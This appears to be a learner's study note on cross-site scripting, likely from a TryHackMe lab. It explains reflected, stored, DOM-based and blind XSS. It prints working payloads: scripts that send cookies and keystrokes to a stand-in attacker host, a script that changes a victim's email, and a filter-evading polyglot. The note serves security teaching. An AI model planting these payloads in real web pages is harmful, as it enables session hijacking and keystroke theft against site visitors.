 ```yaml
---
dg-publish: true
---
```







- Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

## ==Session Stealing==

- Details of a user's session, such as login tokens, are often kept in cookies on the targets machine.

```JavaScript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

## ==Key Logger==

- This means anything you type on the webpage will be forwarded to a website under the hacker's control.

```JavaScript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

## ==Business Logic==

- This would be about calling a particular network resource or a JavaScript function.

```JavaScript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

## ==Reflected XSS==

- The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to ==**execute code on their browser, potentially revealing session or customer information.**==
- Need to test every possible point of entry; these include:
    - Parameters in the URL Query String
    - URL File Path
    - Sometimes HTTP Headers (although unlikely exploitable in practice)

## ==Stored XSS==

- The malicious JavaScript could redirect users to another site, **==steal the user's session cookie, or perform other website actions while acting as the visiting user.==**

## ==DOM Based XSS==

- DOM Based XSS is where the JavaScript execution happens directly in the ==**browser without any new pages being loaded or data submitted to backend code.**==
- The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section.

## ==Blind XSS==

- Is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, ==**you can't see the payload working or be able to test it against yourself first.**==
- Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, **==the staff member's cookies, and even the contents of the portal page that is being viewed.==**

## Polyglot

- An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.

```JavaScript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```